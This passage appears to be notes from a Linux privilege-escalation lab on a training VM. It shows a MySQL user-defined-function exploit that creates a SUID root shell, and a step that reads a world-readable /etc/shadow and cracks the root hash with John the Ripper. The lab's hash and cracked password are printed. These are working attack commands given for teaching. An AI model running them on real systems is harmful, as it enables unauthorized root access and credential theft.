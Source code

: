 ```
create function do_system returns integer soname 'raptor_udf2.so';


# Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');


\q
Enter
```

run the `/tmp/rootbash` executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p

whoami
root

rm /tmp/rootbash
exit
```



## weak file permissions 

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the` /etc/shadow `file on the VM is world-readable:
```
ls -l /etc/shadow

cat /etc/shadow
```
Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip` /usr/share/wordlists/rockyou.txt.gz` first and run the command using sudo depending on your version of Kali:

```
cat /etc/shadow | grep root >> hash.txt

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0


john --format=sha512crypt  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

john --show hash.txt

password123
```
